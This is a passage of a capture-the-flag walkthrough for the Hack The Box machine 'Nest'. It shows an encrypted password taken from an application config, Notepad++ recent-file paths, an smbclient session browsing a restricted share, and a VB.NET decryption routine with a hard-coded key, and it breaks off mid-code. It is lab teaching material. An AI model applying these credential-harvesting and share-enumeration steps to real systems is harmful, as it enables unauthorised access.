 After examining, we find that the config for RU_Scanner, which appears to be an in-house application, has credentials for user C.Smith. It seems to be base64 encoded at first glance but when decoded it just produces random bytes. This strongly suggest some encryption.

```
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
```

The other file of interest is a config file for NotepadPlusPlus. In it, we can find recently opened files. The hosts file is likely not useful to us. `Temp.txt` which belongs to Carl who is presumably C.Smith could be useful. `todo.txt` is currently not useful because we are not able to view Carl's account.

```
<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

While we are not able to navigate to `\Secure$\IT\`, we are able to directly navigate to the location of `Temp.txt`. 

```
# smbclient //10.10.10.178/Secure$/ -U "TempUser"
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> cd IT\Carl
smb: \IT\Carl\> ls
  .                                   D        0  Wed Aug  7 15:42:14 2019
  ..                                  D        0  Wed Aug  7 15:42:14 2019
  Docs                                D        0  Wed Aug  7 15:44:00 2019
  Reports                             D        0  Tue Aug  6 09:45:40 2019
  VB Projects                         D        0  Tue Aug  6 10:41:55 2019

                10485247 blocks of size 4096. 6449398 blocks available
```

While `Temp.txt` does not exist anymore, there are more interesting files. If we look at `VB Projects` we see a WIP application called `RUScanner`. If we search inside of this application, we can find out how the credentials are stored in the config file.

Looking through the code, we find mention of encryption/decryption in `Utils.vb`. Let's look at the decryption method to figure out how to get the decrypted password.

```vb
...
Public Shared Function DecryptString(EncryptedString AsString) As String
    If String.IsNullOrEmpty(EncryptedString) Then
        Return String.Empty
    Else
        Return Decrypt(EncryptedString, "N3st22","88552299", 2, "464R5DFA5DL6LE28", 256)
    End If
End Function

...

Public Shared Function Decrypt(ByVal cipherText As String, _
                                ByVal passPhrase As String, _
                                ByVal saltValue As String, _
                                ByVal passwordIterations As Integer, _
                                ByVal initVector As String, _
                                ByVal keySize As Integer) _
                           As String

    Dim initVectorBytes As Byte()
    initVectorBytes = Encoding.ASCII.GetBytes(initVector)

    Dim saltValueBytes As Byte()
```